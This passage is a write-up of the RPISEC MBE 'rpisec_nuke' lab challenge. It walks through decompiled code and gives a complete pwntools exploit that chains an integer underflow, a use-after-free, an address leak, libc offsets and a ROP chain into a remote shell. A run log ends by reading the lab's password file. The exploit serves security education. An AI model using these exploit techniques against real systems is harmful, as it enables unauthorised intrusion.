  print_wbar_animated("CYBER NUKE IS ENROUTE TO DESTINATION\n", 7, 35);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated("ATTEMPTING TO CONNECT TO UPLINK\n", 9, 35);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated("ATTEMPTING TO CONNECT TO UPLINK\n", 9, 35);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated(".\n", 4, 950);
  print_wbar_animated("CONNECTED!\n", 7, 80);
  print_wbar_animated(".\n", 4, 950);
  puts("-------------------------------------------------------");
  print_wbar_animated("ONBOARD COMPUTER INITIALIZING TARGETING CODE\n", 4, 60);
  puts("-------------------------------------------------------");
  print_wbar_animated("BOOTING NUKE86 OS V1.0\n", 4, 60);
  print_wbar_animated("LOADING...\n", 4, 60);
  print_wbar_animated("INITIALIZING MEMORY...\n", 4, 60);
  print_wbar_animated("PREPARING TARGETING CODE...\n", 4, 60);
  print_wbar_animated("EXECUTING...\n", 4, 60);
  print_wbar_animated(".............................\n", 4, 120);
  puts("-------------------------------------------------------");
  print_wbar_animated("APPLICATION OUTPUT:\n", 4, 90);
LABEL_16:
  while ( *(_DWORD *)(nuke + 4) <= 0x1FFu )
  {
    switch ( *(_BYTE *)(nuke + *(_DWORD *)(nuke + 4) + 8) )
    {
      case 'S':
        ++*(_DWORD *)(nuke + 4);
        *(_BYTE *)target = *(_BYTE *)(nuke + *(_DWORD *)(nuke + 4) + 8);
        print_wbar_animated("ACQUIRING TARGET....\n", 4, 40);
        break;
      case 'I':
        ++target;
        break;
      case 'R':
        print_wbar_animated("CYBER NUKE REQUESTED INFLIGHT RE-PROGRAMMING\n", 4, 40);
        print_wbar_animated("ESTABLISHING CONNECTION TO CYBER NUKE\n", 4, 40);
        print_wbar_animated("............................\n", 4, 45);
        program_nuke(chunk);
        target = nuke + 0x208;
        goto LABEL_16;
      case 'O':
        print_wbar_animated("CYBER NUKE TARGETING STATUS: ", 4, 40);
        printf("0x%02X\n", *(_BYTE *)target);
        break;
      case 'D':
        if ( !strncmp("DOOM", (const char *)(*(_DWORD *)(nuke + 4) + nuke + 8), 4u) )
        {
          (*(void (__cdecl **)(int))(nuke + 0x28C))(nuke + 0x208);
        }
        else if ( !strncmp("DISARM", (const char *)(*(_DWORD *)(nuke + 4) + nuke + 8), 6u) )
        {
          print_wbar_animated("VOLUNTARY INFLIGHT DISARM INITIATED\n", 4, 45);
          (*(void (**)(void))(nuke + 0x288))();
        }
        goto E;
      case 'E':
E:
        if ( !strncmp("END", (const char *)(*(_DWORD *)(nuke + 4) + nuke + 8), 3u) )
          *(_DWORD *)(nuke + 4) = 0x200;
        break;
      default:
        break;
    }
    ++*(_DWORD *)(nuke + 4);
  }
  print_wbar_animated("SHUTTING DOWN NUKE86......", 4, 25);
  print_wbar_animated("...will.i.dream...?...?.\n", 4, 300);
  puts("-------------------------------------------------------");
  print_wbar_animated("CYBER NUKE FAILED TO LOCK TARGET INFLIGHT\n", 4, 25);
  print_wbar_animated("EXECUTING FAIL SAFE DISARM SEQUENCE\n", 4, 25);
  print_wbar_animated("............................\n", 4, 100);
  (*(void (**)(void))(nuke + 0x288))();
  result = 0;
  if ( *MK_FP(__GS__, 20) != cookie )
    _stack_chk_fail_local(*MK_FP(__GS__, 20) ^ cookie, v1);
  return result;
}


We can see that it initializes a `target` pointer that initially points to `nuke+0x208`.
It then iterates through each byte in our `nuke_code_hex` buffer that we set when we armed our nuke in the `program_nuke()` function.
Based on the byte it reads from our buffer, different actions, which are decided by a switch statement, are performed.

1. 0x52 = reprogram nuke
1. 0x53 = write to target
1. 0x49 = target++;
1. 0x4f = print target
1. 0x44 = Disarm or Detonate
1. 0x45 = END

If it encounters a byte not included in this list, it simply does nothing and moves onto the next byte.

Additionally, we notice that there is pointer to the function, `disarm_nuke()` at offset `nuke+0x288` and a pointer to the function `detonate_nuke()` at offset `nuke+0x28c`.

On a related note, if the string, "DOOM", is encountered, the function pointer to `detonate_nuke()` will be called. 

(*(void (__cdecl **)(int))(nuke + 0x28C))(nuke + 0x208);


**Using a combination of the actions provided affords us two exploit primitives to work with.**

1. the ability to leak the address of the executable
1. the ability to overwrite the function pointers at `nuke+0x288` and `nuke+0x28c`

***Additionally, if we are able to leak the address of the executable, we can use the leak to also calculate the base address of libc, since Ubuntu's ASLR sucks, and the distance between the base addr of libc and the base addr of the executable does not change.***

After we perform the leak, we can actually reprogram the nuke to reset target and have it perform a different set of actions. We will need to do this is we want to both leak and overwrite `nuke+0x28c`. 

Initially I leaked libc to calculate the address of `system@libc` which I then wrote to `nuke+0x28c` while also writing a "/bin/sh\0" string to `nuke+0x208`, but this gave me a troll shell when I triggerd the function call.*


$ whoami
shitshell


So to get around this, I had to write my own ROP chain to manually perform the syscall for `execve("/bin/sh\0");`
I used both gadgets from libc and a stack pivot gadget from the ELF executable to generate my ROP chain.

Putting everything together, we get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
from Crypto.Cipher import AES
import sys

def key1(data):
    r.sendline("1")
    r.recvuntil("KEY:")
    r.send(data)
    r.sendline("")
    r.sendline("")
    r.recvuntil("SELECTION:")

def key2(length, key, data, reconnected=False):
    r.sendline("2")
    r.recvuntil("KEY:")
    r.sendline(str(key))
    r.recvuntil("):")
    r.sendline(str(length))
    r.recvuntil("ENCRYPT:")
    r.send(data)
    r.sendline("")
    r.sendline("")
    r.sendline("\n")
    r.recvuntil("SELECTION:")

def key3(response,reconnected=False):
    r.sendline("3")
    r.recvuntil("RESPONSE:")
    r.send(response)
    r.sendline("")
    r.recvuntil("AUTHENTICATED")
    r.sendline("")
    r.recvuntil("SELECTION:") #

def arm_nuke(nuke_code):
    r.sendline("4")
    r.sendline(nuke_code)
    r.sendline("")
    r.sendline("")
    r.sendline("\n")
    r.recvuntil("SELECTION:")

def leak_elf():
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak = (int("0x"+tmp_leak[10],16)*0x10)+int("0x"+tmp_leak[11],16)
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak += (int("0x"+tmp_leak[10],16)*0x1000)+(int(tmp_leak[11],16)*0x100)
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak += (int(tmp_leak[10],16)*0x100000)+(int(tmp_leak[11],16)*0x10000)
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak += (int(tmp_leak[10],16)*0x10000000)+(int(tmp_leak[11],16)*0x1000000)
    return elf_leak-0x4021 # get elf_base

def launch_nuke():
    r.sendline("confirm")

def code_pack(addr):
    return "53"+hex(addr)[8:10]+"4953"+hex(addr)[6:8]+"4953"+hex(addr)[4:6]+"4953"+hex(addr)[2:4]+"49"

def exploit(r):

    chunk_leak = int(r.recvuntil("SELECTION: ").split("\n")[7].split(" ")[4][7:17])
    log.success("heap chunk found at: "+hex(chunk_leak))

    ## UNLOCK KEY1 ##
    ## ABUSE INT UNDERFLOW ###
    key1("\x00\x00\x00\x00")
    log.success("key 1 unlocked!")

    ## FREE KEY3 CHUNK ##
    log.info("triggering UAF...")
    log.info("creating key 3 chunk...")
    r.sendline("3")
    r.recvuntil("#:")
    log.info("freeing key 3 chunk...")
    r.sendline("")
    r.sendline("")
    r.recvuntil("SELECTION:")

    ## UAF TO CORRUPT KEY3.31337_check ##
    IV  = p32(0xfeedfacf)
    IV += p32(0xdeadc0de)
    IV += p32(0xbabecafe)
    IV += p32(0x0a55b00b)

    key = "\x00"*(16)
    cipher = "\x00"*0x10+p32(0x31337)+"\x00"*0xc

    obj = AES.new(key,AES.MODE_CBC, IV)
    plaintext = obj.decrypt(cipher)

    log.info("allocating key 2 chunk...")
    key2(32, "", plaintext)

    ## UNLOCK KEY3 W/OVERWRITTEN KEY3.31337 ##
    log.info("re-using key 3 chunk...")
    key3("")
    log.success("key 3 unlocked!")

    ## UNLOCK KEY2 ##
    '''
    CHALLENGE (64 Bytes):
    F2.CC.C2.65.8F.31.AC.15.42.53.EC.27.85.84.26.7D
    75.B8.86.45.81.04.80.2E.D1.6D.F2.60.30.9D.F7.30
    DA.B0.1F.DB.C1.17.ED.4F.2A.A4.63.13.EE.E5.55.81
    42.F2.01.12.E2.C5.8A.36.C9.7B.39.60.36.7E.1C.99
    [...]
    $ cat seeds
    attempting seed 243961812
    f2:cc:c2:65:8f:31:ac:15:42:53:ec:27:85:84:26:7d:
    75:b8:86:45:81:04:80:2e:d1:6d:f2:60:30:9d:f7:30:
    f0:be:a7:05:74:c6:aa:77:98:87:04:75:66:39:d3:60:
    0c:64:e6:49:30:54:a4:07:3a:58:76:08:1e:da:b4:0e:
    [...]
    $ python -c 'print hex(0x0c64e6493054a4073a5876081edab40e^0x42f20112e2c58a36c97b3960367e1c99)'
    0x4e96e75bd2912e31f3234f6828a4a897L
    '''
    key2_r = "4e96e75bd2912e31f3234f6828a4a897"
    key2(16,key2_r,"KING CROWELL"+"\x00")
    log.success("key 2 unlocked!")

    ## ARM NUKE ##
    # 0xcac380cd^0xbadc0ded^0xacc3d489 = 0xdcdc59a9
    # 0xa959dcdc^0x00454e44 = 0xa91c9298
    # 0xa91c9298^0x444f4f4d = 0xed53ddd5

    #0x52 = reprogram nuke
    #0x53 = write to target
    #0x49 = target++;
    #0x4f = print target
    #0x44 = Disarm or Detonate
    #0x45 = END
    nuke_code  = "49494949"*32 #"DOOM"
    nuke_code += "4f494f49" #leak, set *target to 41, #increment target
    nuke_code += "4f494f49"
    nuke_code += "52414141"
    nuke_code += "fb5dd3d9"
    nuke_code += "\x00"*(0x1fc-144)

    log.info("programming nuke...")
    arm_nuke(nuke_code)
    log.success("nuke armed!")

    log.info("launching nuke...")
    launch_nuke() # use first char of nuke_code -0x44 as switch select

    elf_base = leak_elf() # returns 0xf7744000
    #libc_base = elf_base-0x1ff000 # 0xf7505000 #local
    libc_base = elf_base-0x1e2000 # 0xf7505000 #remote
    
    # target = nuke+0x208
    target = chunk_leak+0x490
    
    '''
    $ ./dump libc6_2.19-0ubuntu6.6_i386
    offset___libc_start_main_ret = 0x19a83
    offset_system = 0x00040190
    offset_dup2 = 0x000db590
    offset_read = 0x000dabd0
    offset_write = 0x000dac50
    offset_str_bin_sh = 0x160a24
    '''

    ## GADGETS ##
    stack_pivot = elf_base+0x2cd4       # mov esp, edx ; ret
    #pop_ecx_ebx = libc_base+0xf9482     # pop ecx ; pop ebx ; ret #local
    pop_ecx_ebx = libc_base+0xf9152    # pop ecx ; pop ebx ; ret # remote
    binsh = libc_base+0x160a24          # "/bin/sh\0" # remote
    #binsh = libc_base+0x16084c          # "/bin/sh\0"  # local
    #pop_eax = libc_base+0x2470f         # pop eax ; ret # local
    pop_eax = libc_base+0x2469f         # pop eax ; ret # remote
    pop_edx = libc_base+0x1aa2          # pop edx ; ret # local AND remote
    #int_80 = libc_base+0x2e725          # int 0x80 # local
    int_80 = libc_base+0x2e6a5         # int 0x80 # remote 
    ptr_binsh = target+0x20 
    null_ptr = target+0x40
    
    log.success("elf_base found at: "+hex(elf_base))
    log.success("libc_base found at: "+hex(libc_base))
    log.success("binsh string found at: "+hex(binsh))
    
    nuke_code  = "cefa0bb0"*32
    nuke_code += "a91c9298"
    nuke_code += "a91c9298"
    nuke_code += code_pack(pop_ecx_ebx)
    nuke_code += code_pack(ptr_binsh)
    nuke_code += code_pack(binsh)
    nuke_code += code_pack(pop_eax)
    nuke_code += "530b4953"
    nuke_code += "00495300"
    nuke_code += "49530049"
    nuke_code += code_pack(pop_edx)
    nuke_code += code_pack(null_ptr)
    nuke_code += code_pack(int_80)
    nuke_code += code_pack(binsh)
    nuke_code += "49494949"*24
    nuke_code += code_pack(stack_pivot)
    nuke_code += "444f4f4d" # DOOM  
    # mirror
    nuke_code += "444f4f4d" # DOOM  
    nuke_code += code_pack(stack_pivot)
    nuke_code += code_pack(pop_edx)
    nuke_code += code_pack(null_ptr)
    nuke_code += code_pack(int_80)
    nuke_code += "530b4953"
    nuke_code += "00495300"
    nuke_code += "49530049"
    nuke_code += code_pack(pop_ecx_ebx)
    nuke_code += code_pack(ptr_binsh)
    nuke_code += code_pack(pop_eax)
    nuke_code += "a91c9298"
    
    log.info("reprogramming nuke...")
    # reprogram nuke
    r.sendline(nuke_code)
    r.sendline("") 
    r.sendline("")
    r.sendline("\n")
    
    #pause()
    r.interactive()
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/mnt/hgfs/conceptofproof/Documents/MBE/labs/project2/rpisec_nuke'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)



rh0gue@vexillum:/mnt/hgfs/conceptofproof/Documents/MBE/labs/project2$ python solve.py warzone 31337
[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 31337: Done
[+] heap chunk found at: 0xb8f3c008
[+] key 1 unlocked!
[*] triggering UAF...
[*] creating key 3 chunk...
[*] freeing key 3 chunk...
[*] allocating key 2 chunk...
[*] re-using key 3 chunk...
[+] key 3 unlocked!
[+] key 2 unlocked!
[*] programming nuke...
[+] nuke armed!
[*] launching nuke...
[+] elf_base found at: 0xb7731000
[+] libc_base found at: 0xb754f000
[+] binsh string found at: 0xb76afa24
[*] reprogramming nuke...
[*] Switching to interactive mode
  CYBER NUKE REQUESTED INFLIGHT RE-PROGRAMMING
  ESTABLISHING CONNECTION TO CYBER NUKE
  ............................
  INITIALIZING CYBER NUKE PROGRAMMING SEQUENCE......
  CYBER NUKE ENTERING PROGRAMMING MODE
  LOADING......................READY
  ENTER CYBER NUKE TARGETING CODE AS HEX STRING: 
-------------------------------------------------------
-------------------------------------------------------
  VALIDATING CODE INTEGRITY......
  CYBER NUKE CHECKSUM: 0xdcdc59a9
  TARGETING CODE VERIFIED
  FLASHING CYBER NUKE WITH TARGETING CODE
  ...25%...50%...75%...100%
  PROGRAMMING COMPLETE
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
$ id
uid=1039(project2_priv) gid=1040(project2_priv) groups=1040(project2_priv),1001(gameuser)
$ whoami
project2_priv
$ cat /home/project2_priv/.pass
th3_pr1nt_funct10n_w4s_100_l!n3s_al0ne
$


**After I got the flag, I found out from Doom that they had overloaded one of the _libc_\* bootstrapping routines to add their own code which hooks `system@libc`. The intent was to force students to write their own ROP chain. Very evil of them, but it was a good exercise :)*
